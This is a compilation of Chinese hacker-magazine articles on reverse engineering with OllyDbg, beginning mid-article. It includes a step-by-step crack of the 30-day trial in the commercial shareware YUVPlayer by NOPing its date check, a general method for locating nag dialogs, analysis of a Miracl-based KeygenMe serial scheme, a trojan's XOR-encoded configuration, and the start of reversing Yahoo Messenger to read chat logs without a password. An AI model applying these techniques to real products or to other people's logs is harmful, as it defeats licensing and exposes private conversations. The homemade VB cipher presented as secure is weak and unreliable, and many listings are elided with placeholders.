77D2E4D7   E8 ...         call _CreateWindowEx
77D2E4DC   5D             pop ebp
77D2E4DD   C2 3000        retn 30
```

最后程序确实被断了。在断的地方仔细观察上下文环境，感觉得到的信息很模糊，唯一给我们的信息是栈信息，如图 2 所示。面对这样的栈信息，我们唯一能用的方法当然是找回溯，一层一层地回溯下去；到了最后我们还没回溯到关键位置，而人就晕了。所以，这样的方法显然不实用，所以我们就暂且把这样的方法也认为是行不通的。


图 2

既然上面三种方法都是行不通，那么有没有什么办法能够简便地获得关键信息呢？答案是有。这也是本文的重点。

既然上面我们做了三种尝试的方案，那么现在有必要来总结一下，从这些尝试中，能得到什么有用的信息，然后再用这些有用的信息来推出一般性的破解方法。

既然窗口是用 CreateWindow 建立的，但又不是 MessageBox，所以我们大概能够知道这样的窗口应该是对话框。既然窗口上面有字符串，我们用 OD 却搜索不到，出现这种现象的唯一解释是字符串可能存在于外部文件中或者在资源中，显然本程序并没有相应的外部文件，所以唯一可能的存在形式是字符串被当作资源存储了。

既然是对话框，那么有过 API 编程经验的读者朋友应该知道，我们每建立一个对话框，一般都是先在资源文件中编辑好对话框模板，而这样的模板最后会被资源编译器编译后以资源的形式放在可执行文件（PE 文件）的资源节中。所以我们接下来要做的第一步是用资源反编译打开可执行文件，这里我们用 ResScope 打开 Crackme，如图 3 所示。


图 3

注意看资源 ID，窗口的资源 ID 是 101。那么这个资源 ID 有什么用呢？现在不妨让我们回忆一下建立窗口的 API。一般常用的 API 是：

```cpp
DialogBox(hInstance, lpTemplate, hWndParent, lpDialogFunc)
```

DialogBox 仅仅只是个壳，最终调用的 API 是下面这个函数：

```cpp
DialogBoxParamA(hInstance, lpTemplate, hWndParent, lpDialogFunc, 0L)
```

显然，这个 API 函数有个重要的参数 `lpTemplate`，这个参数就是资源 ID。

我们知道，参数入栈最后被转化为相应的机器码：

```asm
PUSH ID
```

所以，从这个入口我们得到了思路：也就是说，只要我们调用了对话框相应的 API，那么必然要有 ID 入栈，也就是说一定会有 `PUSH ID` 这么一条语句，所以我们现在要做的就是搜索到这条语句出现在什么地方。话不多说，用 OD 查找一下看能不能实现。打开 OD，按 Ctrl + F 组合键，输入 “PUSH 65”，注意 65 是 101 的 16 进制。结果如下所示：

```asm
00401000  mov eax, dword ptr [esp+4]
00401004  push 0
00401006  push 00401020
0040100B  push 0
0040100D  push 65
0040100F  push eax
00401010  call dword ptr [<&USER32.DialogBoxParamA>]
00401016  xor eax,eax
00401018  retn 10
```

太神奇了，就这么简单的一步，就找到了关键位置！既然这个位置有了，那么去除这个 NAG 窗口也就很容易了。OK，Crackme 破解成功！

### 实例二 YUVPlayer 时间限制破解

刚才那个 Crackme 仅仅只是试练，大家可能觉得还不过瘾，现在我们就来一个共享软件试试。YUVPlayer 是一款国外的能够播放 YUV 格式视频的软件，虽然很精练，但功能却很强大。特别是目前我正在研究视频编解码，这样的工具更是不可或缺。

很可惜的是，这个软件是共享软件，只能免费使用 30 天，超过 30 天后不注册将会弹出一个提示对话框，单击确定后将会退出，如图 4 所示。


图 4

现在我们就用上面介绍的万能招来对付这个时间限制，打开 ResScope 反编译 YUVPlayer.exe，查看上面那个窗口的资源 ID 是 `0x8A`。现在用 OD 加载 YUVPlayer.exe，然后按 Ctrl + F 组合键，输入 “PUSH 8A”，按 Ctrl + L 组合键一个一个地排除，最后我们来到下面的关键位置：

```asm
0041F630  mov eax, dword ptr [esp+4]
0041F634  push esi
0041F635  push eax
0041F636  mov esi, ecx
0041F638  push 8A
0041F63D  call <jmp.&MFC42.#CDialog::CDialog_324>
...
0041F64B  retn 4
```

那么，我们在 `0041F630` 下断点，按 F9 键运行，会被断在这边，然后观察栈信息，如图 5 所示。


图 5

回溯到地址 `0x00420595` 这个地方：

```asm
00420589   push edi
```

```asm
0042058A    8D8D 18FFFFFF    lea ecx, dword ptr [ebp-E8]
00420590    E8 9BF0FFFF      call 0041F630
00420595    8D8D 18FFFFFF    lea ecx, dword ptr [ebp-E8]
0042059B    C645 FC04        mov byte ptr [ebp-4], 4
0042059F    E8 F2E20000      call ...
...
004205B3    8D4D F4          lea ecx, dword ptr [ebp-1C]
004205B6    C645 FC00        mov byte ptr [ebp-4], 0
```

这个应该就是限制未注册用户使用的地方。既然程序可以区分注册和未注册用户可以使用的功能，那么在运行到上面代码处之前必然有个分支进行判断，哪些是注册用户，或者未注册用户的时间限制到时等。从此时的上下文，我们定位到下面的分支处：

```asm
00420298    50              push eax
00420299    8D8B 50070000   lea ecx, dword ptr [ebx+750]
0042029F    C645 FC03       mov byte ptr [ebp-4], 3
004202A3    E8 76310000     call ...
...
004202C5    3BC7            cmp eax, edi
004202C7    0F8C ...        jl  00420589
004202CD    83F8 1E         cmp eax, 1E
004202D0    0F8D ...        jge 00420589
```

请注意地址 0x004202CD，显然这个地方是判断时间限制的，那么爆破就很简单了，直接把这个语句 NOP 掉就可以了，然后保存运行，看看效果，如图6所示。


图 6

好了，破解成功，大功告成！

## 总结

现在我们总结一下这个方法。免杀、形形色色的软件以及软件保护方法，有时候作为破解者有些力不从心。毕竟，软件保护在明处，而软件破解在暗处；软件保护是主动的，而软件破解则是被动的。软件破解者要想破解相应的软件，唯一能做的方法就是猜测保护者的软件保护思路。当然了，世界上60多亿人口，每个人都有不同的思维，我们不可能做到猜测每个人的思维活动，因为这个根本是不可能的事情。然而，人类文明之所以能够继续下来就在于，人类往往能够对不同的思维、不同的事物抽象归纳出相同的东西，而这个相同的东西则能够应付不同事物的千变万化。因而，从这个意义上来说，软件注册机制一般情况下都是让用户可见，而可见的东西往往就是以窗口的形式给出，很显然，这个注册窗口就是我们共同的抽象——从这个窗口出发，我们能够找到破解的最佳入口点。所以请记住这么一条朴实简单功能异常强大的语句——“Push ID”。

> （编辑提醒：本文涉及的代码可以到黑客官方站下载）

- 前置知识：汇编
- 关键词：Miracl、Crackme

## 锅逗 Miracl

文/图 木木

### Miracl简介

Miracl 库是国外著名密码学 C 语言函数库，官方网站是 http://www.shamus.ie，完全开源，任何人可以去免费下载使用。该库针对公钥密码学和椭圆曲线密码学的实现，写了很多函数，在这方面可以说是所有国外的库中功能最强大的了。但分组密码学方面的函数相对较少。目前为止还没有发现使用该库的商业软件，因为 Miracl 用于商业目的的话需要交纳一笔昂贵的授权费。Miracl 提供两个说明文档，一个是函数查询手册（MIRACL Reference Manual），另一个是使用说明（User’s Manual），你可以看看文档《MIRACL Reference Manual》，写得非常清楚。在文档中可以查到某个函数的源代码在哪个文件里，找到该文件后，进去找找，每个函数的前面都有说明，说明该函数中的算法出自哪里。


因为这个 Crackme 的算法实现，调用了 Miracl 库，因此上述的前置知识是必要的，有所了解后，就开始我们的破解之旅吧！照例 OD 载入，利用字符串参考可以定位到关键代码，往上翻翻，到如下码处：

```asm
00401583  push 64
00401585  push ecx
00401586  push 3F2
0040158B  push edx
0040158C  call dword ptr ds:[<&USER32.GetDlgItemTextA>]
00401592  cmp eax,2
00401595  mov dword ptr ds:[416FA4],eax
0040159A  jle <KeygenMe.loc_401672>
004015A0  cmp byte ptr ss:[esp+69],2D
004015A5  je short <KeygenMe.loc_4015CB>
004015A7  mov ecx,dword ptr ss:[esp+128]
004015AE  push 10
004015B0  push KeygenMe.0041511C ; Badboy
004015B5  push KeygenMe.004150F4 ; Invalid serial number
004015BA  push ecx
004015BB  call dword ptr ds:[<&USER32.MessageBoxA>]
```

这里的代码，调用 GetDlgItemTextA 得到输入的注册码，然后检查是否大于 2 位，若小于就注册失败。紧接着判断注册码的第 14 位是否等于“2D”，即字符“-”，若等于，则跳向进一步的验证，若不等于，就弹出 Invalid serial number 的对话框。也就是说我们输入的注册码必须是“XXXXXXXXXXXXX-XXXXXXXXXXX”这种形式的，要不然到这里就结束了。我们继续跟下去，就到了如下代码处：

```asm
004015CE  mov eax,dword ptr ss:[esp+10]
// 这里的堆栈存储的是一个指向内存的指针
004015D2  lea edx,dword ptr ss:[esp+5C]
// 这里的堆栈存储的是输入的注册码，EDX 指向注册码
004015D6  push edx
004015D7  push eax
004015D8  mov byte ptr ss:[esp+71],0
// 将注册码中的“-”用“0”代替
004015DD  call <KeygenMe.sub_408A20>
```

这里调用了一个函数，而且这个函数是来自 Miracl 中的函数，那么如何识别出它是来自 Miracl 的函数？这个问题很复杂，我也不知道如何解决，幸好我们有“百度”，所谓有“百度”，没“难度”。原来早在 2006 年，happytown 就在看雪学院发表了《如何自动和手动定位加密库函数》的帖子，详细地介绍了这个问题。这里我就简单介绍一下方法吧！用到的工具有 IDA 和 CryptoSIG.v2.0。首先，把 CryptoSIG.sig 文件复制到 IDA 的 sig 目录下。然后，按 Shift+F5 组合键调出 List of applied library modules 窗口。接着，右键单击 Apply new signature，选择 CryptoSIG，单击“OK”按钮，如图 1 所示。

在 IDA 的 File 菜单中选择 Produce file→Create MAP file... 保存，然后用 OllyDbg 载入 Crackme，在菜单中选择插件 load Map 加载上面生成的 MAP 格式的文件，然后我们可以清楚地看到函数被重新标识了，如图 2 所示。


图 1


图 2

我们发现 OD 可以自动识别加密函数了，我们就从算法的最开始部分，也就是程序开始调用 Miracl 库中的函数处开始吧！

```asm
004013AA  push 0
004013AC  mov dword ptr ds:[eax+238],10
004013B6  call <KeygenMe._mivar>
```

这里调用了 mivar 这个函数，具体是什么作用，我们还是查一下手册吧！手册上好像说是初始化变量的，应该是类似 C 语言中的“int a=0;”这样的语句吧。这里调用了 16 次这个函数，可见是初始化了 16 个变量。好，我们继续往下：

```asm
0040145B  push KeygenMe.00415184 ; ASCII "31CC59984C1F4"
00401460  push ebx
00401461  mov dword ptr ss:[esp+54],eax
00401465  call <KeygenMe._cinstr>
```

手册上说这个函数的作用是读入一个字符串来初始化一个 big 类型的变量，这个函数有两个参数，指向字符串的指针和要被初始化的变量。这里这个函数被调用了 7 次，被读入的字符串有 398B479A3C9F3、398B47BC33879、1ADD7C665E966、10C40BB22F5AA、200239D6807CC、05DD032BD1889。好，我们继续：

```asm
004014BC  mov ecx,dword ptr ss:[esp+74]
004014C0  add esp,40
004014C3  push 1
004014C5  push ebp // "398B479A3C9F3"
004014C6  push ebx // "31CC59984C1F4"
004014C7  push ecx
004014C8  call <KeygenMe._ecurve_init>
```

到这里，手册上写的我根本读不懂，这里将它的用法和我的理解写出来，大家就意会一下吧！

```c
Function: void ecurve_init(A,B,p,type)
  big A,B,p;
  int type;

void ecurve_init(80000001,31cc59984c1f4,398b479a3c9f3,1)
y^2 = x^2 + 80000001x + 31cc59984c1f4 (mod 398b479a3c9f3)
```

好像是初始化了一个方程，“mod”是取模的运算符，相信大家都知道吧！好，继续往下看：

```asm
004014D2  mov edx,dword ptr ss:[esp+28]
004014D6  mov dword ptr ss:[esp+50],eax
004014DA  push eax
004014DB  mov eax,dword ptr ss:[esp+38]
004014DF  push 1
004014E1  push edx
004014E2  push eax
004014E3  call <KeygenMe._epoint_set>
```

函数 epoint_set 是给上面方程设置一个卡点，用法如下：

```c
Function: BOOL epoint_set(x,y,lsb,p)
  big x,y;
  int lsb;
  epoint *p;
```

x、y 是传递给方程的参数，lsb 貌似指的是 y 的最低位。

```asm
00401554  lea eax,dword ptr ss:[esp+4C] // eax 指向 FFFFFFFF
00401558  lea ecx,dword ptr ss:[esp+C0] // ecx 指向用户名
0040155F  push eax
00401560  push ecx
00401561  call KeygenMe.00401150
...
004011AD  retn
```

这些代码大家应该很熟悉吧！正常的 CRC32 算法。CRC32 算法要用到 CRC32 表，在内存中发现了它，如图 3 所示。

```asm
004015CE  mov eax,dword ptr ss:[esp+10]
004015D2  lea edx,dword ptr ss:[esp+5C] // 指向序列号的指针
004015D6  push edx
004015D7  push eax
004015D8  mov byte ptr ss:[esp+71],0
004015DD  call <KeygenMe._cinstr>
004015E2  lea ecx,dword ptr ss:[esp+72] // 指向“-”后注册码的指针
004015E6  push ecx
004015E7  push esi
004015E8  call <KeygenMe._cinstr>
```


图 3

这里将注册码分为两部分，调用函数 cinstr 形成两个 big 变量，参与后面的计算。

```asm
004015ED  push esi // 指向注册码后半部分的指针
004015EE  push esi
004015EF  push esi
004015F0  push edi // 指向"398B47BC33879"的指针
004015F1  push esi
004015F2  call <KeygenMe._xgcd>
```

这个函数的用法如下：

```c
Function: int xgcd(x,y,xd,yd,z)
  big x,y,xd,yd,z;
```

要进行这样的运算：z=x*xd+y*yd。这里如果设 p=398B47BC33879，q 为注册码后半部分，则调用应为 xgcd(p,q,q,q,q)。按约束条件，最后的运算变成了：q=1/q (mod p)。继续往下看：

```asm
004015F7  mov edx,dword ptr ss:[esp+40]
004015FB  mov eax,dword ptr ss:[esp-54]
004015FF  push edx // r1=0
00401600  push edi // 00992090 // p
00401601  push edi // p
00401602  push esi // 00993fb0 // q
00401603  push esi // q
00401604  push eax // CRC32(name)
00401605  call <KeygenMe._mad>
```

这个函数的用法如下：

```c
Function: void mad(x,y,z,w,q,r)
  big x,y,z,w,q,r;
```

要进行这样的运算：q=(x·y+z)/w，r 用来保存余数。这里的调用是 mad(crc32(name), q, q, p, p, 0)。在约束条件下，运算可化为：r1=crc32(name)*q (mod p)。

```asm
0040160A  mov eax,dword ptr ss:[esp+68]
0040160E  mov edx,dword ptr ss:[esp+4C]
00401612  push ecx // r2=0
00401613  push edi // p
00401614  push edi
00401615  push esi // q
00401616  push esi
00401617  push edx // "1234567890123" ...
00401618  call <KeygenMe._mad>
```

这里再次调用 mad 函数，进行这样的运算：r2=s*q mod(p)。

继续……

```asm
00401625  mov ecx,dword ptr ss:[esp+2C]
00401629  mov edx,dword ptr ss:[esp+40]
0040162D  mov dword ptr ss:[esp+38],ecx
00401631  push eax // P3
00401632  mov eax,dword ptr ss:[esp+40]
00401636  push eax // P2
00401637  mov eax,dword ptr ss:[esp+24]
0040163B  push ecx // r2=s*q mod(p)
0040163C  push edx // P1
0040163D  push eax // r1=crc32(name)*q(mod p)
0040163E  call <KeygenMe._ecurve2_mult2>
```

这个函数的用法如下：

```c
Function: void ecurve2_mult2(k1,p1,k2,p2,pa)
  big k1,k2;
  epoint *p1,*p2,*pa;
```

要进行这样的运算：pc = k1·p1 + k2·p2。这里的调用是这样的：ecurve2_mult2(r1,P1,r2,P2,z)；进行这样的运算：P3 = r1*P1 + r2*P2，这个很好理解。

```asm
00401643  mov ecx,dword ptr ss:[esp+58]
00401647  mov edx,dword ptr ss:[esp+28]
0040164B  mov eax,dword ptr ss:[esp+4C]
0040164F  push ecx // y
00401650  push edx // x
00401651  push eax // P3=r1*P1+r2*P2
00401652  call <KeygenMe._epoint_get>
```

这个函数的用法如下：

```c
Function: int epoint_get(p,x,y)
  epoint *p;
  big x,y;
```

这里的解释读不懂，只能自己去分析了，按我的理解应该和上一个运算是有巨大关系的，在上一个运算中，P1=(1AD...,10C...)，也就是说 P1 指向两个数据，而这两个数据分别记为 x、y，P2 也是一样。在这里运算的时候，也是分了两部分计算，得出的结果 P3 也指向 x、y 两部分。

```asm
00401657  mov ecx,dword ptr ss:[esp+34]
0040165B  mov edx,dword ptr ss:[esp+30]
0040165F  push ecx  // x(P3)
00401660  push edx  // 指向注册码的第一部分
00401661  call <KeygenMe._compare>
```

Compare 这个词是比较的意思，这里顾名思义就是 P3 指向的 x 部分与注册码的第一部分相比较，若相等就注册成功了！至此，算法也就结束了。

在分析这个 crackme 的时候，刚开始也是摸不着头脑，上网查了资料才知道调用了 Miracl 库，然后找到了 happytown 的解决方法，识别函数后，就很好分析了。

- 前置知识：VB
- 关键词：文本加密、VB

# 一种特殊文本加密算法的实现


文/图 胡文亮

网上有很多种文本加密算法，但是我觉得不太安全。首先它们的算法是公开的，用的人多了自然会有破解的方法；其次一份明文只有一种对应密文，使用得多了很容易被别人猜出对应的意思……基于这些原因，作者设计了一套加密算法（GTSII），并公开给读者。

GTSII 的加密流程如下：先准备含 12 个元素的字符串数组（SA），再把待加密字符串（S0）中的字符代码组成初级密文串（S1），随后产生随机数并按映射替换，得到终极密文串（S2）。

产生一个在 1 到 c 之间的随机数（n），并把 S1 中的数字 0~9、空格、负号分别替换成 SA(0) 至 SA(11) 对应字符串中的第 n 个汉字，这就得到了终极密文字符串（S2）。加密流程用代码描述如下：

```vb
Public Function GTSII(ByVal Txt As String, ByRef G() As String) As String
  Dim S1(11) As Integer
  Dim i As Integer, sJs As Integer, cGLen As Integer, gTsX As String
  cGLen = Len(G(0))
  gTsX = CTA(Txt)
  For i = 1 To Len(gTsX)
    sJs = MyRnd(1, cGLen)
    Select Case Mid(gTsX, i, 1)
      Case "0": GTSII = GTSII & (Mid(G(0), sJs, 1))
      Case "1": GTSII = GTSII & (Mid(G(1), sJs, 1))
      ...
    End Select
  Next
End Function
```

```vb
Case "2"
    GTSII = GTSII & (Mid(G(2), sJs, 1))
Case "3"
    GTSII = GTSII & (Mid(G(3), sJs, 1))
...
Case "11"
    GTSII = GTSII & (Mid(G(11), sJs, 1))
Case Else
End Select
Next
End Function
```

```vb
Dim i As Long
Dim sSz() As String
sSz = Split(Txt, Chr(32))
For i = 0 To UBound(sSz)
    ATC = ATC & Chr(CLng(sSz(i)))
Next
End Function

Public Function MyRnd(ByVal UpperBound As Integer, ByVal LowerBound As Integer)
    On Error Resume Next
    Randomize
    MyRnd = Int((UpperBound - LowerBound + 1) * Rnd + LowerBound)
End Function
```

测试代码如下（英文操作系统复制汉字到 Word 会成为乱码，只能截图了）：

```vb
Public Sub MAIN()
On Error Resume Next
Dim Aza As String
Dim Gx(11) As String
Gx(0) = "..."
Gx(1) = "..."
...
Gx(11) = "..."
Aza = g_GTSI.GTSII("世界，你好！", Gx)
MsgBox Aza
MsgBox g_GTSI.unGTSII(Aza, Gx)
End Sub
```

以下都是对同一字符串的加密，但是加密的结果不同，如图 1 所示。


图 1

但是解密结果都一样，如图 2 所示。


图 2

解密过程则相反，首先把 S2 还原成 S1（依次遍历 12 个字符串共 12 个汉字，把 S2 中的每个汉字替换成对应的 12 个符号），然后把 S1 还原成原字符串（S0）。代码如下：

```vb
Public Function unGTSII(ByVal Txt As String, ByRef G() As String)
    On Error Resume Next
    Dim SJn(11) As Integer, x As Integer, y As Integer, eGLen As Integer, TH As String
    eGLen = Len(G(0))
    unGTSII = Txt
    For x = 0 To 9
        For y = 1 To eGLen
            TH = Mid(G(x), y, 1)
            unGTSII = Replace(unGTSII, TH, CStr(x))
        Next
    Next
    For y = 1 To eGLen
        TH = Mid(G(10), y, 1)
        unGTSII = Replace(unGTSII, TH, ".")
    Next
    For y = 1 To eGLen
        TH = Mid(G(11), y, 1)
        unGTSII = Replace(unGTSII, TH, "-")
    Next
    unGTSII = ATC(unGTSII)
End Function
```

上面两段代码用到的自定义函数 CTA、ATC、MyRnd 代码如下：

```vb
Public Function CTA(ByVal Txt As String) As String
    On Error Resume Next
    Dim i As Long
    For i = 1 To Len(Txt)
        CTA = CTA + Chr(32) + CStr(Asc(Mid(Txt, i, 1)))
    Next
    CTA = Trim(CTA)
End Function

Public Function ATC(ByVal Txt As String) As String
    On Error Resume Next
    ...
End Function
```

如果要实际应用，每个字符串里 16 个汉字（c=16）的强度很低，被破解的可能性很大，个人估计至少要 32 个汉字（c=32）以上。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：汇编
- 关键词：逆向、分析木马

## 3.4 木马寻找攻击者

文/图 木木


看到朋友的手机刷了新的系统，很是羡慕，自己的老系统早用烦了，于是从网上下载了工具，准备自己也换个界面漂亮的系统来玩玩。可是刚解压安装包，金山就报警了。根据金山的报告，应该是木马，路径在 `C:\Program Files\Motorola\RSDLite\RSDUpdater.exe`。心想该不是金山的误报吧，网站上可承诺说是经过杀毒软件的检测无毒的啊！来到金山指定的路径，找到了可疑文件 RSDUpdater.exe，看这名字好像是更新程序，先复制一下，直接双击复制件，消失了。看来金山并没有误报，确实是木马。首先，我们还是让杀毒软件扫描一下内存，将我们刚才激活的木马查杀。然后就请出我们的利剑 OD，来玩屠马的游戏吧！

我们还是先做好防范工作吧，因为我们这次玩的可是木马，它可是有巨大杀伤力的呀！首先，先断网吧，大家都知道，木马一旦运行，隐藏在黑暗中的那双只手就有可能通过网络操控我们。其次，我们将木马复制到虚拟机上，防患于未然啊！做好这两步后，就可以正式开始了。好，OD 载入，先用字符串参考着看能不能找到有用的信息，结果令人沮丧，因为我们没有找到半点有用的信息，如图 1 所示。


图 1

既然这招不管用，我们换另一招吧！单击右键，在弹出来的菜单中选择“搜索”命令，选择当前模块中的名称，我们来看看这个木马程序都调用了哪些函数，如图 2 所示。

我们应该先在 ExitProcess 下断，为什么呢？这是为了在调试期间减少麻烦。如果我们稍不注意按 F9 键把木马运行了，就不可能再按 Ctrl+F2 组合键重新加载了，因为木马一旦运行就会消失，我们必须重新复制样本进行调试，这就给我们的调试带来了麻烦。如果我们在 ExitProcess 下断点，木马在运行结束要退出的时候就会断下来，我们就可以按 Ctrl+F2 组合键重新加载了，这样就减少了麻烦。我们仔细观察一下可以发现木马调用了注册表操作函数（RegCloseKey、RegOpenKeyExA、RegQueryValueExA），我们先在这三个函数上下断，看看木马调这三个函数干了什么。我们选中要下断的函数，单击右键，选择在导入表中切换断点，就可以成功下断了。成功断下后，仔细观察堆栈窗口，里面有这个注册表键值 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders`。看到了吗？这时我们就应该有这样的疑问，木马为什么要访问这个注册表键值呢？要弄清楚这个问题，我们先去注册表找这个键值吧！如图 3 所示。


图 2


图 3

我们仔细观察名称为 Startup 这一项的键值就大概明白了，它的数据是 `C:\Documents and Settings\Administrator.263736EBAE76454\「开始」菜单\程序\启动`，大家应该不难猜出木马正是通过把自身复制到这个文件夹来实现自启动的，我们可以前往上述的文件夹证实一下，如图 4 所示。

是如何实现自启动的，我们查杀木马当然不只是想明白这点东西，这不是我们的目的。如果别人给你种了木马，你当然希望知道这个人是谁，找出幕后的真凶才是我们的真正目的。让我们一起来揭开谜底吧！

在我们要开始之前，先弄清楚一些问题，这样有助于更快、更准确地找到我们想要的信息。我们要找幕后真凶，从木马里能得到的是攻击者在配置木马时填入的 IP 地址或转向的动态域名……终于找到了答案，如图 5 所示。


图 4

我们在上述文件夹中找到了木马，同时木马也将自己复制到 `C:\Documents and Settings\All Users\「开始」菜单\程序\启动`，来实现同样的目的；与其相对应的注册表键值是 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\explorer\Shell Folders\Common Startup`。我们来看一下在代码上是如何实现的：


图 5

大家都看到 `LoadResource` 函数了吧，木马就是调用这个函数来加载攻击者在配置木马时输入的信息……按前面的方式断下，执行到用户代码处如下：

```asm
77DACDCD  push eax
77DACDCE  push 20019
77DACDD3  push esi
77DACDD4  push dword ptr ... ; "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders"
...
call ADVAPI32.RegOpenKeyExW
...
call ADVAPI32.RegQueryValueExW
```

上面就是木马用来调用操作注册表的函数，不明白的地方大家可以多查看 MSDN。我这里就不多解释了。前面我们通过在注册表操作函数上下断点，弄明白了木马……

```asm
00406B0C  push esi
00406B0D  push ebx
00406B0E  call <jmp.&kernel32.LoadResource>
00406B13  mov esi,eax
00406B15  test esi,esi
00406B17  je short ...
```

这些通过调用 `LoadResource` 函数，得到了一个字符串：`8&:89&,&=:+89&>8!Z|\[mz!lZ\ Z|\^ ...`。这里没有我们想要的信息，而且这个字符串毫无规律……攻击者当然会把它加密，这样我们就不容易找到了。

```asm
00406B2F  call 00404250
00406B34  lea eax,[ebp-8]
00406B37  call 00404178
```

```asm
00406B3C ...
00406B3F ...
00406B42 call 004051BC
...
00406B5E call <jmp.&kernel32.FreeResource>
```

```asm
00406A4E mov eax,esi
00406A50 call 00403F28
00406A55 inc edi
00406A56 dec cx
00406A59 jnz short 00406A2B
```

我们看到上面的 5 个 CALL 都是解密字符串的，程序在解密字符串后，才调用 FreeResource 释放资源。解密的关键代码在 00406B4D 处的这个 CALL 里，我们按 F7 键进入，找到如下代码。

通过以上代码我们可以看出，这里的算法是依次取字符串中的字符，逐个解密，解密的核心就是 `xor dx,208`。我们举个例子：假如读到了字符 8（十六进制 38），与 208 异或后得到 230，取后两位数 30，对应字符 0。接着步入 00406A46 的 CALL，找到关键代码。

```asm
00406A27 mov di,1
00406A2B movzx eax,di
00406A2E mov edx,dword ptr ss:[ebp-4]
00406A31 movzx eax,byte ptr ds:[edx+eax-1]
...
00406A41 xor dx,208
00406A46 call 00403EC8
```

```asm
00402A26 rep movs byte ptr es:[edi],byte ptr ds:[esi]
```

```asm
00403E08 xchg dword ptr ds:[eax],edx
```

这句代码是把解密后存在堆栈的字符送入内存。接着步入 00406A50 的 CALL，找到关键代码也只有一句。这里让堆栈地址指向内存中解密后的字符串，因此可在堆栈中跟踪算法过程。（编辑提醒：本文涉及代码可到官方网站下载）

- 前置知识：无
- 关键字：Yahoo、雅虎通、聊天记录

# 解密雅虎通聊天记录

文/图 幻哀 xfish


雅虎通是由雅虎（Yahoo!）推出的即时聊天工具，是国际主流即时通信工具之一。由于其邮箱安全性问题，很多人使用雅虎通进行聊天。谈到聊天工具就不得不谈聊天记录安全。雅虎通聊天记录功能较人性化，提供三种选项，默认保存所有信息，如图 1 所示。

聊天记录只有登录对应用户才能查看，记录内容保存在 Yahoo 安装目录 Messenger\Profiles 中与用户名对应目录下。在用户目录的 Archive\Messages 中可看到联系人名称，并按联系人名称目录保存聊天记录。

例如，当前用户 huaquan123@yahoo.com.cn 与联系人 bl4ck@live.cn 的聊天记录保存在相应目录中，如图 2 所示。


图 1

由于聊天记录文本内容是加密的，所以如果用户忘记密码，就无法查看自己之前的聊天记录了。接下来我们分析一下雅虎通程序本身读取聊天记录的过程，并利用 Delphi 实现与之相同的读取过程来实现无密码解密雅虎通聊天记录。


图 2

## 逆向分析

雅虎通本身可以利用自己的聊天记录管理器来管理与多个用户的聊天记录，而由于每个用户保存聊天记录的文件位置是不同的，那么雅虎通聊天记录管理器选择任意一个用户的时候程序都会去读取与之对应的文件，如图 3 所示。


图 3

那么当我们利用 OD 载入程序后，直接设置断点读文件，就可以把程序断到重要位置了。

理论内容就说这么多，打开 OD 开始实际测试。单击“文件→附加”命令，选择 YahooMessenger 附加即可载入当前雅虎通进程。这时候就可以对 YahooMessenger 进程进行分析，直接设置 `bp ReadFile` 断点读文件。然后按 F9 键继续运行程序，在聊天记录中选择另一位联系人，这时程序会被 OD 断下。（这里由于程序是循环对文件进行读，所以会出现断两次）如图 4 所示。

```asm
... ReadFile 调用相关反汇编与堆栈窗口 ...
```

图 4

我们可以看到断下为 ReadFile 的内容。为了先做整体分析，在堆栈窗口中选择 0794ED58 位置，单击鼠标右键，在弹出的菜单中选择“反汇编窗口中跟随”命令，即返回到 ReadFile 函数的调用，如图 5、图 6 所示。

```asm
... 调用 ReadFile 前的参数压栈与调用点（图5） ...
```

图 5

```asm
... CreateFile / SetFilePointer / ReadFile / CloseHandle 相关调用链（图6） ...
```

图 6

在这里我们可以看到设置指针位置、读文件、关闭文件和上面的打开文件函数，如图 7 所示。由于 OD 自动帮我们调用当前 call 的位置，那么我们直接断在调用位置然后重新载入单步跟踪即可。

```asm
... CreateFile 调用点与参数（图7） ...
```

图 7

运行到这里大家会发现 eax 寄存器就是被读取的联系人聊天记录，这样更肯定了我们断下的位置是正确的。

```asm
004D6E7C  push ebp
004D6E7D  mov ebp, esp
004D6E7F  sub esp, 8C
...
push 80            ; Attributes = NORMAL
push 3             ; Mode = OPEN_EXISTING
push 3             ; ShareMode = FILE_SHARE_READ|FILE_SHARE_WRITE
push 80000000      ; Access = GENERIC_READ
push dword ptr [ebp+8] ; FileName
```

```asm
004D6EAB  call dword ptr [<&KERNEL32.CreateFileA>]
004D6EB1  cmp eax,-1
004D6EB4  mov dword ptr [esi+38],eax
004D6EB7  jnz short 004D6EC0
004D6EB9  xor eax,eax
004D6EBB  jmp 004D6FF3
...
004D6EC0  push ebx
004D6EC1  push ebx
004D6EC2  push ebx
004D6EC3  push eax
004D6EC4  call dword ptr [<&KERNEL32.SetFilePointer>]
```

这里程序首先判断 ESI+38 是否为 0，所以应该是程序写的调用。然后进行文件判断，如果文件被打开那么直接跳过这里，否则就打开文件，并设置文件指针。

```asm
004D6ECA  push edi
004D6ECB  mov edi,dword ptr [<&KERNEL32.ReadFile>]
004D6ED1  push ebx
004D6ED2  lea eax,[ebp+8]
004D6ED5  push eax
004D6ED6  push 4
004D6ED8  push dword ptr [ebp+C]
004D6EDE  push dword ptr [esi+38]
004D6EED  call edi
004D6EEF  cmp dword ptr [ebp+8],ebx
004D6EF2  jnz short 004D6F07
004D6EF4  push dword ptr [esi+38]
004D6EF7  call dword ptr [<&KERNEL32.CloseHandle>]
004D6EFD  mov [esi+38],ebx
004D6F00  xor eax,eax
004D6F02  jmp 004D6FF2
```

接下来对文件进行读取，先读 4 个字节，如果不为 0 则跳转。这里主要判断文件是否为空，如果是则关闭句柄跳出解密，否则就跳转到下方继续工作。

```asm
004D6F07  push ebx
004D6F08  lea eax,[ebp+8]
004D6F0B  push eax
004D6F0C  push 4
004D6F0E  push dword ptr [ebp+10]
004D6F11  push dword ptr [esi+38]
004D6F14  call edi
004D6F16  push ebx
004D6F17  lea eax,[ebp+8]
004D6F1A  push eax
004D6F1B  push 4
004D6F1D  push dword ptr [ebp+14]
004D6F20  push dword ptr [esi+38]
004D6F23  call edi
...
```

```asm
004D6F2C  lea eax,[ebp-888]
004D6F32  push eax
004D6F33  push dword ptr [esi+38]
004D6F36  call edi
004D6F38  mov eax,7FF
004D6F3D  cmp dword ptr [ebp-888],eax
004D6F43  jbe short 004D6F4B
```

